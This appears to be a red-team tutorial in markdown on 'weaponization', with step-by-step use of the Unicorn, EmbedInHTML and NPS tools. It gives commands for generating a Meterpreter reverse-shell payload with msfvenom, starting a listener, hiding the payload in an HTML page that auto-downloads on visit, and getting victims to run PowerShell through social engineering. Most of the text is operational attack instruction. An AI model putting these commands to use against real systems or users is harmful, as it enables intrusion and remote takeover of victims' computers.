

# Red Teaming Squad : Weaponization

Weaponization consists of techniques that result in adversary-controlled code running on a local or remote system. Techniques that run malicious code are often paired with techniques from all other tactics to achieve broader goals, like exploring a network or stealing data. For example, an adversary might use a remote access tool to run a PowerShell script that does Remote System Discovery. Most of these techniques do not require a Tool but just access and Native Tools from the Windows Machine itself one of the reasons we want to use.


## Unicorn

Magic Unicorn is a simple tool for using a PowerShell downgrade attack and inject shellcode straight into memory.


### Installation

You can install "Unicorn" using following command:

```
git clone https://github.com/trustedsec/unicorn
```

<kbd></kbd>

### Usage

Usage is simple, just run Magic Unicorn (ensure Metasploit is installed if using Metasploit methods and in the right path) and magic unicorn will automatically generate a powershell command that you need to simply cut and paste the powershell code into a command line window or through a payload delivery system. Unicorn supports your own shellcode, cobalt strike, and Metasploit.

Here we are using windows/meterpreter/reverse_tcp payload to get the reverse shell because our target system has Windows Operating System.

<kbd></kbd>

Now this will give us two files. One is a text file named “powershell_attack.txt” which has the PowerShell code that will be run in the victim’s machine using social engineering and the other is “unicorn.rc” which is a custom Metasploit file that will automatically set all the parameters and start a listener.

<kbd></kbd>

We need to run the Metasploit “unicorn.rc” file using ```msfconsole -r unicorn.rc``` command which will setup our listener.

<kbd></kbd>

Now execute the powershell command through powershell using any social engineering technoque.

<kbd></kbd>

Once the PowerShell code will be executed in the victim’s powershell command promt, you will see a meterpreter session of your victim. 

<kbd></kbd>

For more use cases, you can use ```python unicorn.py --help``` command or you can visit this [URL](https://github.com/trustedsec/unicorn).


## EmbedInHTML

EmbedInHTML tool will take a file (any type of file) as input, encrypt it, and embed it into an HTML file as resource, along with an automatic download routine simulating a user clicking on the embedded resource. When the user browses the HTML file, the embedded file is decrypted on the fly, saved in a temporary folder, and the file is then presented to the user as if it was being downloaded from the remote site.


### Installation

You can install "Unicorn" using following command:

```
git clone https://github.com/Arno0x/EmbedInHTML
```

<kbd></kbd>

### Usage

Here I am creating a shell.exe file using ```msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Attacker's_IP> LPORT=<Listening_Port> -f exe > shell.exe``` to embed in an HTML page.

<kbd></kbd>

Use ```python embedInHTML.py -k <Your_Secret_Key> -f <Payload_Filename> -o index.html``` command which will generate the index.html file in output directory. Now you can move the file to your /var/www/html/ directory and send the URL to victim.

<kbd></kbd>

Whenever victim will visit the URL, your payload will be downloaded into victim's computer.

<kbd></kbd>

For more use cases, you can use ```python embedInHTML.py -h``` command or you can visit this [URL](https://github.com/Arno0x/EmbedInHTML).


## NPS (NotPowerShell)

NPS is a windows executable file which allows attacker to use powershell commands through ```cmd.exe```.

### Usage

Download from this [Link](https://github.com/Ben0xA/nps/blob/master/binary/nps.zip).

<kbd></kbd>

Now use ```nps.exe <Any_Powershell_command>``` command to execute the powershell command in victim's ```cmd.exe```.

<kbd></kbd>

You can use ```;``` to execute two or more powershell commands in single command.

<kbd></kbd>

For more use cases, you can visit this [URL](https://github.com/Ben0xA/nps).
